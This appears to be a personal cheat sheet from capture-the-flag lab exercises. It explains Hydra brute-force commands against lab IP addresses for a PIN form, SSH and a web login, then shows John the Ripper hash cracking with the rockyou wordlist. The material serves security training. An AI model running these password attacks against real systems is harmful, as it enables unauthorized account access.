 The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.123.72` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target

```
~hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.163 ssh
```
- -t 	--uses 16 parallel connections
- -P	--path to wordlist
- uses ssh

```
sudo hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.134.126 http-post-form "/login/login.php:username=R1ckRul3s&password=^PASS^&sub=Login:Invalid username or password."
```
- http-post-form    --uses post from the subdirectory
- username=R1ckRul3s&password=^PASS^&sub=Login      --found in the network tab under "send and edit"
- Invalid username or password.     -- Invalid creds state, found by entering the incorrect credentials 

---
## johntheRipper

### you can also use https://crackstation.net/ to crack hashes

wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py

hash identifier
```
john hash.txt
```
uses johntheripper to crack hashed passwords
```
john --wordlist=[path to wordlist] [path to file]
```
--wordlist=~/Tryhackme/wordlists/rockyou.txt hash.txt
```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt
```

>if you're dealing with a standard hash type, e.g. md5 as in the example above, you have to prefix it with `raw-` to tell john you're just dealing with a standard hash type, though this doesn't always apply. To check if you need to add the prefix or not, you can list all of John's formats using john `--list=formats` and either check manually, or grep for your hash type using something like `john --list=formats | grep -iF "md5"`

---